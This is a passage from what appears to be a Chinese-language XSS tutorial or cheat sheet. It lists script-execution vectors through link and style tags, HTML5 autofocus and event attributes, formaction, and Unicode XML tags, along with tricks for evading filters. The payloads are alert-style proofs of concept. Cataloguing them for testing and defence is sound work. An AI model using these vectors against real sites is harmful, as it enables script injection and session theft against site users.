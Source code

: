 通过link标签（在IE6下适用，同时javascript可以换成vbscript）：

```
<link rel="stylesheet" href="javascript:alert(1)">
<link rel="stylesheet" href="vb&#x09script:%61lert(document.domain)">

```

style标签中可以通过导入url的方式执行javascript：

```
<style>
@imp\o\ rt url('javascript:%61lert(2)'); 
</style>

```

HTML5中增加了很多标签跟属性，列举一些可执行JavaScript的方法：

```
<form><input><output onforminput="alert(1)"> //Opera支持

```

onfocus与autofocus的配合：

```
<input onfocus=write(domain) autofocus>
<keygen onfocus=write(domain) autofocus>
<textarea onfocus=write(domain) autofocus>
<body onfocus=write(domain) autofocus>
<frameset onfocus=write(domain) autofocus>
<button onfocus=write(domain) autofocus>
<input autofocus onblur=write(domain)><input autofocus> //Chrome中无交互执行
<iframe/src=javascript:alert(1)>
<video/poster=javascript:alert(2)>
<button form="test" formaction="javascript:alert(3)">

```

更多的html5攻击方式请见：[http://html5sec.org/](http://html5sec.org/)

XML内容比较少，就一起写到HTML里了，XML支持Unicode，所以Unicode里的所有字符都可以用来做标签或者属性，同时有可能绕过<\w+匹配：

```
<啊 onclick="alert(1)" xmlns="http://www.w3.org/1999/xhtml">XXX</啊>

```

XML相比HTML最严格的就是有了开始的标签，必须要有结束标签匹配，否则会报错。

但是在大多数浏览器中似乎并不会影响页面中javascript的解析（IE中不执行）：

```
<html xmlns="http://www.w3.org/1999/xhtml"> 
<script>
alert(1); // works
</script>
<p>
<script>
alert(2); // works too 
</script>
</html>

```
